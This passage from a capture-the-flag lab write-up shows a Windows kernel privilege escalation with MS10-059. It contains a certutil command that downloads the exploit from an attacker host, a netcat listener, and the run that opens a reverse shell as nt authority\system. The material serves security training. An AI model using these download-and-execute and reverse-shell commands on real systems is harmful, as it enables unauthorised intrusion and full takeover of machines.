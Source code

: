 Let's get it from the target shell

```bash
c:\Windows\Temp>certutil -urlcache -f http://10.10.14.5/MS10-059.exe ms.exe
```

Now that we have the file, i will open another tab for running netcat on my local machine and let's execute the exploit

```bash
root@kali:~# nc -nvlp 55555
listening on [any] 55555 ...
```

```bash
c:\Windows\Temp>ms.exe 10.10.14.5 55555
```

Cross our fingers and...

```bash
root@kali:~# nc -nvlp 55555
listening on [any] 55555 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.5] 49177
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\Windows\Temp>whoami
whoami
nt authority\system

```

We are AUTHORITY\SYSTEM! I love Kernel exploits 🥰. Now we are able to look for the user and root flags as we saw before in the metasploit way.